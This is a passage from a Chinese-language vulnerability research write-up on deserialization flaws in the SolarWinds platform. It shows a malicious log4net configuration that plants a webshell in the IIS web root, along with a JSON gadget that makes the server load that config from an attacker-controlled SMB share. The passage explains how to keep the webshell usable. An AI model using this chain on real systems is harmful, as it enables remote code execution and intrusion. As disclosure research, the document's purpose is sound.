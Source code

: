 ```bash
        </layout> 
    </appender> 
    ... 
    <logger name="SolarWinds.IPAM.Storage.Credentials.CredentialInitializer"> [4] 
        <level value="DEBUG"></level> 
    </logger> 
    <root> 
        <level value="INFO" /> 
        <appender-ref ref="RollingLogFileAppender" /> 
        <appender-ref ref="ConsoleAppender" /> 
        <appender-ref ref="OrionImprovementAppender" /> 
    </root> 
    <appender name="OrionImprovementAppender" 
type="SolarWinds.OrionImprovement.Logger.OrionImprovementAppender,  
SolarWinds.OrionImprovement.Logger, Version=1.0.0.0, Culture=neutral,  
PublicKeyToken=aa802ff51e6c3813" /> 
</log4net>
```

代码段 33 代码片段 33 恶意 log4net 配置

在\[1\]，我为`RollingLogFileAppender`定义了一个日志文件路径，设置为`C:\inetpub\wwwroot\poc.aspx`。

在\[2\]，我为日志文件定义了一个标头，其中包含一个 `webshell` 负载。

在\[3\]，我定义了一个空的`conversionPattern`。

在\[4\]，我将日志记录器名称设置为`SolarWinds.IPAM.Storage.Credentials.CredentialInitializer`。

当 Log4Net 加载这样的配置文件时：

-   创建`C:\inetpub\wwwroot\poc.aspx`文件。
-   将 `webshell` 负载写入文件。
-   由于`conversionPattern`设置为 null，新的日志消息将不会出现在日志文件中。

最后一步很重要，因为反序列化`CredentialInitializer`的进一步流程将创建新的日志消息。这会破坏我们的 `webshell`。

通过这种方式，我们可以利用 Log4Net 的配置更改机制来上传 `webshell`。然而，需要考虑一件事。使用这种方式上传文件时，文件会被锁定（因为 log4Net 不断尝试写入日志消息，保持文件打开），这导致我们无法使用 `webshell`。然而，我们可以进行两次反序列化，其中第二个小工具包含了配置中不同的文件名。这将释放对第一个文件的锁定，从而使我们能够使用已上传的 `webshell`。

小工具示例：

```bash
{ 
    "$type":"SolarWinds.IPAM.Storage.Credentials.CredentialInitializer,  
SolarWinds.IPAM.Storage, Version=2022.4.0.0, Culture=neutral,  
PublicKeyToken=null", 
    "logConfigFile":"\\\\192.168.1.10\\poc\\malicious.config" 
}
```

代码段 34 CredentialInitializer gadget

#### 1.10 SolarWinds 平台 – 总结

SolarWinds 平台部分的章节中，我展示了在该产品中发现的几种不同的反序列化漏洞。然后，我展示了一个广泛的黑名单，用于修补其中两个漏洞。随后，我描述了绕过此黑名单的创造性方法。这些绕过主要基于 SolarWinds 的内部类，但也使用了一个众所周知的小工具，该小工具未针对 `Json.NET` 序列化器实施。
